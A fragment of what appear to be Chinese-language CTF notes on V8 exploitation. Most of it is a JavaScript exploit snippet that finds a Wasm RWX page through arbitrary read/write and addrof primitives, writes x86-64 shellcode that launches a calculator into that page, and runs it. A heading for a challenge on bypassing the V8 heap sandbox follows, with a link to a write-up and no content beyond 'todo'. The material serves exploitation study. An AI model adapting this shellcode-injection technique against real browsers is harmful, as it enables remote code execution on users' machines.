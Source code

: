 ```js
}

var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,4,1,96,0,0,3,2,1,0,7,7,1,3,97,100,100,0,0,10,4,1,2,0,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.add;

  
var rwx_page_addr = arb_read(addrof(wasm_instance)+0x88n);
console.log("[+] RWX Wasm page addr: 0x" + rwx_page_addr.toString(16));

function copy_shellcode(addr, shellcode) {
    let buf0 = new ArrayBuffer(0x100);
    let dataview = new DataView(buf0);
    let buf_addr = addrof(buf0);
    console.log("[+] buf_addr: 0x" + buf_addr.toString(16));
    let backing_store_addr = buf_addr + 0x20n;
    initial_arb_write(backing_store_addr, addr);

    for (let i = 0; i < shellcode.length; i++) {
    dataview.setUint32(4*i, shellcode[i], true);
    }

}

  

var shellcode = [
    0x90909090, 0x90909090,
    0x0001e890, 0x48c30000, 0x0008c4f7, 0x04740000, 0x08ec8348, 0x10ec8348, 0x8afe98ba, 0x0026e80e,
    0x63680000, 0x59636c61, 0xe1894851, 0x48d23148, 0x8348c2ff, 0xd0ff28ec, 0xe2d87eba, 0x0006e873,
    0x31480000, 0xc3d0ffc9, 0x048b4c65, 0x00006025, 0x788b4900, 0x7f8b4818, 0xc9314830, 0x10478b48,
    0x40778b48, 0x663f8b48, 0x75184e39, 0xc78948ef, 0x813c5f8b, 0x000088c3, 0xfb014800, 0x8948038b,
    0xc30148fb, 0x4920438b, 0x0149f889, 0x184b8bc0, 0x8b41c9ff, 0x89488804, 0xc60148fe, 0x48c9314d,
    0xacfcc031, 0x0974c084, 0x0dc9c141, 0xebc10149, 0xd13941f2, 0x44d97590, 0x4924438b, 0x4166f801,
    0x4448048b, 0x4d1c438b, 0x4138048d, 0x4880048b, 0x90c3f801,
  ];

console.log("[+] Copying xcalc shellcode to RWX page");
copy_shellcode(rwx_page_addr, shellcode);
let inputx = readline();
console.log("[+] Popping calc");

f();

```


## 3 ezv8：绕过堆沙箱写入wasm地址

> [!note] 
> 参考：
> https://d0ublew.github.io/writeups/bi0s-2024/pwn/ezv8-revenge/index.html 


todo

